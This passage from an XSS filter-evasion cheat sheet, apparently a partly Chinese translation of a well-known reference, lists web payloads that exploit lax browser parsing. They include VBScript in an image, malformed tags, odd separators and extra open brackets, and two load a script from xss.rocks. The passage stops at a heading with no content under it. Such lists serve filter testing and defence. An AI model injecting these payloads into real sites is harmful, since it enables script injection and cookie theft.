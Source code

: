 


### VBScript

#### VBscript in an image

~~~
<IMG SRC='vbscript:msgbox("XSS")'>
~~~



### 利用浏览器兼容的语法错误

#### Malformed A tags

Chrome loves to replace missing quotes for you...

~~~
<a onmouseover=alert(document.cookie)>xxs link</a> 
~~~

#### Malformed IMG tags

Originally found by Begeek (but cleaned up and shortened to work in all browsers), this XSS vector uses the relaxed rendering engine to create our XSS vector within an IMG tag that should be encapsulated within quotes.

~~~
<IMG """><SCRIPT>alert("XSS")</SCRIPT>">
~~~


#### Non-alpha-non-digit XSS

一些非字母非数字的字符会被浏览器无视。

~~~
<SCRIPT/XSS SRC="http://xss.rocks/xss.js"></SCRIPT>
~~~

~~~
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>
~~~

~~~
<SCRIPT/SRC="http://xss.rocks/xss.js"></SCRIPT>
~~~


#### Extraneous open brackets

Submitted by Franz Sedlmaier, 这种方法能搞定匹配尖括号的XSS过滤。

* 下例 `//` 用来避免js报错：
    ~~~
    <<SCRIPT>alert("XSS");//<</SCRIPT>
    ~~~


#### No closing script tags
